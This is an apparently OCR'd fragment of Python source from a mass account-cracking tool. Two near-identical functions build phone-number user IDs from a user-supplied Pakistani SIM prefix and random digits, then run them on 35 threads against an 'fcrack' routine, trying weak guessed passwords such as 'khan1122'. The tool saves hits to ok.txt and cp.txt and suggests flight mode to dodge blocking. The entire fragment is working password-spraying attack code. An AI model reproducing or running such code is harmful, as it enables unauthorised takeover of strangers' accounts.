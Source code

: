 #_______
def random_number3():
	uid=[]
	os.system('clear')
	print(logo)
	print('[âˆš] EXAMPLE :92318,92345,92323,92306.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	linex()
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode,'khankhan','khan12','khan1122']
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[âœ“] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#___________
def random_number4():
	uid=[]
	os.system('clear')
	print(logo)
	print('[âˆš] EXAMPLE :92318,92345,92323,92306.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	linex()
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode+guru,'khan786','khan44','khan12','khan1122']
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[âœ“] Crack process has been completed')
